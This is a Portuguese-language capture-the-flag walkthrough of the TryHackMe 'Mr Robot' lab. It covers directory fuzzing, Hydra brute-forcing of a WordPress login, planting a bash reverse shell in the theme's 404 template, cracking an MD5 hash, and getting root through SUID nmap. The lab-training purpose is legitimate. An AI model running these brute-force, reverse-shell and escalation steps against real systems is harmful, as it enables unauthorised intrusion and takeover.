

# Mr Robots

## config VPN

- [https://tryhackme.com/access](https://tryhackme.com/access)



```bash
sudo openvpn file.ovpn
```


## Key 1


```bash
sudo nmap -O -sV 10.10.156.25
```


- Existe um servidor http aberto, entao vamos acessar colocando o ip no browser


- Vamos verificar se existe algum outro diretorio

```bash
wfuzz --hs 404 -w directory-list-2.3-small.txt "http://10.10.156.254/FUZZ"
```


> 000000053:   302        0 L      0 W        0 Ch        "login"
> 
> 
> 000000043:   200        0 L      0 W        0 Ch        "sitemap"
> 
> 000000037:   301        0 L      0 W        0 Ch        "rss"
> 
> 000000032:   301        7 L      20 W       234 Ch      "blog"
> 
> 000000126:   301        0 L      0 W        0 Ch        "feed"
> 
> 000000124:   301        0 L      0 W        0 Ch        "0"
> 
> 000000133:   301        7 L      20 W       235 Ch      "video"
> 
> 000000168:   301        0 L      0 W        0 Ch        "atom"
> 
> 000000163:   301        0 L      0 W        0 Ch        "image"
> 
> 000000259:   301        7 L      20 W       235 Ch      "admin"
> 
> 000000241:   301        7 L      20 W       240 Ch      "wp-content"
> 
> 000000331:   301        7 L      20 W       235 Ch      "audio"
> 
> 000000348:   200        2027 L   19569 W    489204 Ch   "intro"
> 
> 000000475:   200        52 L     158 W      2671 Ch     "wp-login"
> 
> 000000549:   301        7 L      20 W       233 Ch      "css"
> 
> 000000548:   301        0 L      0 W        0 Ch        "rss2"
> 
> 000000677:   200        156 L    27 W       309 Ch      "license"
> 
> 000000785:   301        7 L      20 W       241 Ch      "wp-includes"
> 
> 000000954:   301        7 L      20 W       232 Ch      "js"
> 
> 000000981:   301        0 L      0 W        0 Ch        "Image"
> 
> 000001601:   301        0 L      0 W        0 Ch        "rdf"
> 
> 000001618:   301        0 L      0 W        0 Ch        "page1"
> 
> 000001729:   200        1 L      14 W       64 Ch       "readme"
> 
> 000001780:   200        3 L      4 W        41 Ch       "robots"
> 
> 000002916:   302        0 L      0 W        0 Ch        "dashboard"
> 


- Temos um wordpress rodando
- Vamos colocar qualquer usuario e senha para ver oq acontece


- Repara que ele deu um `Invalid username`

---

- Bom agora abrindo o `robots`


- Temos nossa primeira flag


## Key 2

- Abrindo em `fsocity.dic` ele vai baixar um arquivo
- Dando um cat no arquivo perceba que tem varios nomes iguals, entao vamos limpar os iguais

```bash
sort fsocity.dic | uniq > clear.txt
```

- Nesse arquivo tem varios nomes, entao que tal usar como wordlist?
- Vamos usar o hydra para isso
- Vamo pegar o cookie do site


- A sintaxe

```bash
hydra -L wordlist -p anything ip service "/server:port:opt"
hydra -L wordlist -p anything ip service "/directory:log:error" 
```

```bash
hydra -L clear.txt -p anything 10.10.156.254 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.156.254%2Fwp-admin%2F&testcookie=1:invalid" -V -F
```

| -V | v / -V / -d verbose mode / show login+pass for each attempt / debug mode |
| --- | --- |
| -F | f / -F exit when a login/pass pair is found (-M: -f per host, -F global) |


- Agora com o usuario vamos testar


- Entao vamos fazer o mesmo so que com a senha

```bash
hydra -l elliot -P clear.txt 10.10.156.254 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.156.254%2Fwp-admin%2F&testcookie=1:incorrect" -V -F
```


- Agora vamos entrar no wordpress

> [80][http-post-form] host: 10.10.156.254 login: elliot password: ER28-0652
> 


- Aqui vamos editar algum arquivo onde podemos colocar algum shell ou shell reverso
- Procurando no site, na categoria `Appearence` → `Editor`
- Temos o `404 Template`, vamos editar ele e adicionar
    
    ```bash
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<yourIP>/<yourPORT> 0>&1'");
    ```
    
- Com isso vamos abrir nossa porta de acordo com a porta que colocamos
- No meu caso
    
    ```bash
    sudo nc -nvlp 777 -s 10.8.154.250
    ```
    
    | -s | seu ip |
    | --- | --- |
- Entao vamos enviar o arquivo modificado
- E como eh uma pagina de error, vamos simplesmente entrar em qualquer url para entrar na pagina de 404, ou simplesmente entrar nela
    
    
    
- Agora temos acesso
    
    
    
- Vamos ver quem somos
    
    ```bash
    whoami
    ```
    
    
    
- Vamos ver se existe algum usuario com pasta dentro de `/home`
    
    ```bash
    cd /home
    ls
    ```
    
    
    
- Entao vamos ver o que existe dentro de `robot`
    
    ```bash
    cd robot
    ls
    ```
    
    
    
- Vamos ver o `password.raw-md5`
    
    ```bash
    cat password.raw-md5
    ```
    
    
    
- Para decifrar vamos usar esse site
    - [https://crackstation.net/](https://crackstation.net/)
    
    
    
- Entao vamos tentar entrar como `robot`
    
    
    
- Bom para que nao deu certo, entao vamos resolver isso com esse comando de shell spawning
    
    ```bash
    python -c 'import pty; pty.spawn("/bin/sh")'
    ```
    
    
    
    [https://rcenetsec.com/shell-spawning/](https://rcenetsec.com/shell-spawning/)
    
- Agora vamos tentar novamente
    
    ```bash
    su robot
    ```
    
    
    
- Para teste vamos usar novamente o `whoami`
    
    
    
- Vamos tentar ver o que tem dentro de `key-2-of-3.txt`
    
    
    
- Agora temos nossa flag 2

## Key 3

- Agora precisamos ter acesso root
- Para isso vamos usar esse comando de privilege escalation
    
    ```bash
    find / -user root -perm -4000 2>/dev/null
    ```
    
    
    
    [https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4](https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4)
    
- Aqui eu irei utilizar o `*/nmap`
- O comando seria esse
    
    ```bash
    nmap --interactive
    !sh
    ```
    
    
    
- Agora vamos ver quem somos
    
    ```bash
    whoami
    ```
    
    
    
- Agora vamos ver o que tem na pasta do root
    
    ```bash
    ls /root
    ```
    
    
    
- Entao vamos ver essa `key*`
    
    ```bash
    cat /root/key-3-of-3.txt
    ```
    
    
    
- Entao temos nossa terceira flag
